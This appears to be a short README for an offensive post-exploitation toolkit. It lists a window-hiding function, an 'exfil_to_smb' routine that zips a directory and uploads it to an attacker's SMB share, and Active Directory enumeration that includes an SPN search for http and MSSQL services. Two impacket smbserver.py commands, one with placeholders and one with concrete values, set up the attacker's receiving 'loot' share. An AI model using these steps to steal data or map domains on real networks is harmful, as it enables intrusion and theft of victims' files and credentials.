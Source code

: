 ## Stelth

**minivy_window**

## Exfiltration

**exfil_to_smb**

Performs the following functions:

- zip a directory to an archive
- map an attacker's smb share
- upload archive to attacker's smb share
- remove mapping to attacker's smb share

Notes:

startup an smbserver with impacket's *smbserver.py*

```
sudo python3 impacket/examples/smbserver.py -smb2support -username <share_user> -password <share_pass> -ip <attacker_ip> <sharename> <share_path>
```

example:

```
sudo python3 impacket/examples/smbserver.py -smb2support -username dev -password dev -ip 192.168.0.10 tmp /opt/loot
```

## Active Directory

**basic_enum**

Performs the following functions:

- Basic Domain Info
- List Users
- List Groups
- List Memberships
- Search for SPNs containing *http* and *MSSQL*
